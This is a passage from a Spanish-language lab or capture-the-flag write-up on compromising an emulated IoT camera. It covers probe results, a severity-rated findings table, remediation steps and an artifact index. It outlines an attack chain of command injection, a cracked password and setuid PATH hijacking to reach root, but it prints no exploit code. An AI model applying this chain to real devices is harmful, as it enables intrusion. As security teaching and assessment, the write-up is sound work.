

*`openssl s_client` confirma `no peer certificate available` y nmap fingerprinta `400 Bad Request / SSL Required`.*



*Pruebas con `nc` y cabeceras `X-Forwarded-*`: el servicio siempre responde en texto plano `SSL Required`.*



*Peticiones SOAP a `/onvif/device_service`: respuesta estática y `Connection reset by peer`.*

También se verificó como root que no había más servicios ni procesos ocultos:



*Primer intento de `netstat -tlnp` como root; el comando queda cortado en la captura.*



*`netstat -tlnp` como root: solo 80, 554, 8000 y 8443 en escucha.*



*Inspección de `/app` y `/sbin/sys-daemon` para localizar la implementación de los servicios.*



*`/app` contiene `app.py`, `sys_telemetry.py` y el firmware servido.*

Evidencias: `captures/26_https_8443.png`, `captures/27_8443_tls.png`,
`captures/30_8443_probe.png`, `captures/31_onvif_probe.png`,
`captures/34_telemetry_src.png`, `notes/34_telemetry_src.txt`,
`notes/29_root_netstat2.txt`.

---

## 8. Hallazgos y severidad

| ID | Hallazgo | Severidad | CWE | Evidencia |
|----|----------|-----------|-----|-----------|
| F1 | Inyección de comandos en `interface` (`shell=True`) | **Crítica** | CWE-78 | `13_cgi_rce.png`, `app.py` |
| F2 | Escalada local por PATH hijacking en `cam_diag` setuid root | **Crítica** | CWE-426 | `14_enum_setuid.png`, `24_fix_chmod.png` |
| F3 | Credenciales hardcodeadas `support_eng:XXXXX` | **Alta** | CWE-798 | `app.py`, `12_john_crack.png` |
| F4 | Contraseña débil en hash SHA-512 crackeable con rockyou | **Alta** | CWE-521 | `12_john_crack.png` |
| F5 | Descarga de firmware sin autenticación con shadow y token | **Alta** | CWE-200 | `05_firmware_dl.png`, `09_firmware_files.png` |
| F6 | Basic auth sobre HTTP en claro | **Media** | CWE-319 | `13_cgi_rce.png` |
| F7 | Token de telemetría hardcodeado en firmware | **Media** | CWE-798 | `09_firmware_files.png` |
| F8 | Código fuente de la app legible por `support_eng` | **Media** | CWE-200 | `21_app_py.png` |
| F9 | Sin rate limiting/bloqueo en Basic auth | **Media** | CWE-307 | `10_cgi_test.png` |
| F10 | Servicios señuelo que simulan RTSP/ONVIF/TLS | **Informativa** | — | `34_telemetry_src.png` |

---

## 9. Remediación recomendada

1. **Eliminar la inyección de comandos:** no usar `shell=True`; ejecutar `ifconfig`
   con una lista de argumentos (`subprocess.run(["ifconfig", iface])`) y validar
   `iface` contra una allowlist (`wlan0`, `eth0`, etc.).
2. **Quitar setuid a `cam_diag`** o, si es imprescindible, usar rutas absolutas para
   `netstat`, sanitizar `PATH` (`clearenv`/`execve` con entorno controlado) y aplicar
   el principio de mínimo privilegio.
3. **Eliminar credenciales hardcodeadas:** usar un almacén de secretos, hashes
   robustos (Argon2id/bcrypt) y rotar `support_eng:XXXXX`.
4. **Proteger el firmware:** exigir autenticación, firmar las imágenes y no incluir
   `/etc/shadow`, tokens ni secretos en el artefacto descargable.
5. **Cifrar el canal:** servir la consola por HTTPS y no enviar Basic auth sobre HTTP.
6. **Rate limiting y bloqueo** en el endpoint de autenticación.
7. **Mínimo privilegio:** no ejecutar la app como root; usar un usuario dedicado y
   capacidades del contenedor restringidas.
8. **Eliminar servicios señuelo** o documentarlos; no simular TLS si no se implementa.
9. **Revisión de código y secret scanning** en CI/CD.

---

## 10. Anexos

### 10.1 Comandos clave y logs crudos

| Paso | Log crudo |
|------|-----------|
| Escaneo de puertos | `notes/01_nmap_allports.txt` |
| Fingerprint de servicios | `notes/02_nmap_services.txt` |
| Descarga del firmware | `notes/05_firmware_dl.txt` |
| Extracción binwalk/SquashFS | `notes/06_firmware_binwalk.txt` |
| Archivos del firmware | `notes/09_firmware_files.txt` |
| Crackeo john | `notes/12_john_crack.txt`, `notes/36_john_show.txt` |
| RCE CGI | `notes/13_cgi_rce.txt` |
| Enumeración setuid | `notes/14_enum_setuid.txt` |
| PATH hijacking | `notes/23_path_hijack4.txt`, `notes/24_fix_chmod.txt` |
| Root + flag | `notes/25_root_flag.txt` |
| netstat como root | `notes/29_root_netstat2.txt` |
| Servicios señuelo | `notes/34_telemetry_src.txt` |
| Gobuster | `notes/35_gobuster.txt` |
| Sesión completa | `notes/session_raw.log` |

### 10.2 Índice de capturas

Las 37 capturas de terminal están embebidas en las secciones 2–7. Los archivos
individuales están en `captures/`.

| Sección | Capturas |
|---------|----------|
| 2. Metodología | `00` |
| 3.1 Puertos | `01` |
| 3.2 Fingerprint | `02`, `04` |
| 3.3 HTTP | `03`, `35` |
| 4.1 Firmware | `05`, `06`, `07`, `08` |
| 4.2 Secretos | `09` |
| 4.4 `cam_diag` | `11` |
| 5. Aplicación web | `21` |
| 5.3 Codificación | `15`, `19`, `20` |
| 6.1 Crackeo | `12`, `36` |
| 6.2 RCE | `10`, `13` |
| 6.3 Enumeración | `14` |
| 6.4 PATH hijacking | `16`, `18`, `22`, `23`, `24` |
| 6.5 Root y flag | `25`, `37` |
| 7. Señuelos | `26`, `27`, `28`, `29`, `30`, `31`, `32`, `33`, `34` |

### 10.3 Artefactos

- `loot/camsec_v1.08.bin` — firmware original.
- `firmware_extract/_camsec_v1.08.bin.extracted/squashfs-root/` — rootfs.
- `loot/support.hash` — hash de `support_eng`.
- `loot/app_py_dump.txt` — copia de `/app/app.py`.
- `loot/sys_telemetry_dump.txt` — copia de `/app/sys_telemetry.py`.
- `exploits/exploit_chain.sh` — cadena completa reproducible (auth → RCE →
  PATH hijacking → root → flag).

---

## 11. Conclusión

El laboratorio permite un compromiso completo en cadena: el firmware expone
credenciales y el diseño de un CGI vulnerable; la app web repite el patrón de
inyección de comandos con autenticación débil y hardcodeada; y el binario setuid
`cam_diag` convierte el RCE como `support_eng` en root mediante PATH hijacking.
La flag final demuestra el control total del host:

```text
Whoami{...}
```

La lección principal es que la seguridad de un dispositivo IoT no termina en la
interfaz web: el firmware, los binarios setuid, las credenciales embebidas y la
configuración de servicios forman una cadena de ataque que debe evaluarse en conjunto.
